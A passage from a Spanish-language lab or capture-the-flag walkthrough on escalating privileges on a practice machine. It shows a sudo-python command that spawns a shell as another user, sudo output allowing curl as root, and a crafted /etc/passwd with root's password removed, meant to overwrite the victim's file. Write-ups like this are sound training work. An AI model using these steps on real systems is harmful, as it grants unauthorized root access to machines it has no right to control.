 Vemos que podemos ejecutar el binario `python3` como el usuario `balulero`, por lo que haremos lo siguiente:

```shell
sudo -u balulero python3 -c 'import os; os.system("/bin/bash")'
```

Info:

```
balulero@b4b6bf85edb6:/home/bob$ whoami
balulero
```

Con esto ya seremos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for balulero on b4b6bf85edb6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User balulero may run the following commands on b4b6bf85edb6:
    (ALL) NOPASSWD: /usr/bin/curl
```

Veremos que podemos ejecutar el binario `curl` como el usuario `root`, por lo que haremos lo siguiente:

Vamos a crear un archivo llamado `passwd` para clonar el `passwd` de la maquina victima y sobreescribirlo en la maquina victima desde nuestra maquina `host`, copiamos el contenido del `passwd` de la maquina victima y generamos el archivo en la maquina `host` pero quitandole la `x` al usuario `root` para dejarle sin contraseña y poder escalar directamente.

```shell
nano passwd

#Dentro del nano
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
balulero:x:1000:1000:balulero,,,:/home/balulero:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
bob:x:1001:1001:bob,,,:/home/bob:/bin/bash
```
